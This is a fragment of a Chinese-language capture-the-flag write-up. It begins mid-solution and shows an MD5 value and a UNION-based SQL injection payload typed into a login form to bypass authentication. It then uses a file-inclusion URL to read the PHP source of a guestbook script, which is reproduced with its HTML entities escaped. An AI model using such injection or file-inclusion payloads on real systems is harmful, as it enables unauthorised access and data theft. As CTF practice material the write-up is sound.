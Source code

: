 ```bash
md5(2,32) = c81e728d9d4c2f636f067f89cc14862c
```
用户名输入
```
' and 1=0 UNION SELECT "c81e728d9d4c2f636f067f89cc14862c" #
```
密码中输入
```bash
2
```
# 综合题2

访问
`http://cms.nuptzj.cn/about.php?file=say.php`
````bash
<meta http-equiv="Content-Type" content="text/html; charset=utf-8" />
&lt;meta http-equiv=&quot;Content-Type&quot; content=&quot;text/html; charset=utf-8&quot; /&gt;
&lt;?php
include 'config.php';
$nice=$_POST['nice'];
$say=$_POST['usersay'];
if(!isset($_COOKIE['username'])){
setcookie('username',$nice);
setcookie('userpass','');
}
$username=$_COOKIE['username'];
$userpass=$_COOKIE['userpass'];
if($nice==&quot;&quot; || $say==&quot;&quot;){
echo &quot;&lt;script&gt;alert('昵称或留言内容不能为空！(如果有内容也弹出此框，不是网站问题喔~ 好吧，给个提示：查看页面源码有惊喜！)');&lt;/script&gt;&quot;;
exit();
}
$con = mysql_connect($db_address,$db_user,$db_pass) or die(&quot;不能连接到数据库！！&quot;.mysql_error());
mysql_select_db($db_name,$con);
$nice=mysql_real_escape_string($nice);
$username=mysql_real_escape_string($username);
$userpass=mysql_real_escape_string($userpass);
$result=mysql_query(&quot;SELECT username FROM admin where username='$nice'&quot;,$con);
$login=mysql_query(&quot;SELECT * FROM admin where username='$username' AND userpass='$userpass'&quot;,$con);
if(mysql_num_rows($result)&gt;0 &amp;&amp; mysql_num_rows($login)&lt;=0){
echo &quot;&lt;script&gt;alert('昵称已被使用，请更换！');&lt;/script&gt;&quot;;
mysql_free_result($login);
mysql_free_result($result);
mysql_close($con);
exit();
}
mysql_free_result($login);
mysql_free_result($result);
$say=mysql_real_escape_string($say);
mysql_query(&quot;insert into message (nice,say,display) values('$nice','$say',0)&quot;,$con);
mysql_close($con);
echo '&lt;script&gt;alert(&quot;构建和谐社会，留言需要经过管理员审核才可以显示！&quot;);window.location = &quot;./index.php&quot;&lt;/script&gt;';
?&gt;gt;
```